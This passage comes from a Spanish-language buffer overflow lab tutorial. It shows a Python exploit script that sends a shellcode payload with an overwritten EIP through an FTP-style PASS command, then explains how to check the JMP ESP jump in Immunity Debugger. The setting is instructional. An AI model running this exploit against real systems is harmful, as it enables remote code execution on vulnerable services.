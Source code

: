 ```bash
b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

## Verificación de EIP con Breakpoint

Ahora se verificará que el EIP entre en esta dirección, para esto se ejecutará el script pero primero se establecerá un breakpoint en la dirección de memoria del OPCode.

Primero se busca en memoria la dirección del OPCode en el Immunity Debugger, para buscarla se debe dar click en el ícono de la flecha negra con los puntos e ingresar la dirección del OPCode:

![Untitled](../assets/Buffer-Overflow/Lab1/Buscar-OpCodes-Cargar-Shellcode/Untitled 4.png)

Ahora se puede ver el OPCode FFE4 y corresponde a un JMP ESP.
